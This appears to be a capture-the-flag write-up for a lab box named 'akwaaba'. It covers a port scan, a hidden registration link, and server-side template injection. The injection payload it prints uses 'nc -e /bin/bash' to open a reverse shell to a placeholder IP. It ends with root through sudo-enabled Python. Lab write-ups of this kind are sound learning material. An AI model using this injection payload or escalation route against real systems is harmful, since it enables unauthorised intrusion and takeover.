

scanning akwaaba, we find 2 ports open

```
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/troylynx/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.0.11.0:80
Open 10.0.11.0:10800
[~] Starting Script(s)
[~] Starting Nmap 7.94
```

visiting port 80 we get


visiting the next port(10800) we get


tried loggin using default creds, but didnt work out 
but viewing the source code, you see a register link which is hidden 


lets make it visibel by removing the hidden value and create and account and login to the system


logging in to the page we realise we can create pages, my team and i treid a lot of stuff and latter landed on `SSTI`

> {{ self.__init__.__globals__.__builtins__.__import__('os').popen('nc -e /bin/bash <IP> <PORT>').read() }}

and we got a shell


to privesc we used sudo -l and found the user could exec `python` with `sudo`



[gtfobins](https://gtfobins.github.io/gtfobins/python/#sudo) has the solution just change `python` to `python3`

and we are root


## you are Welcome (akwaaba)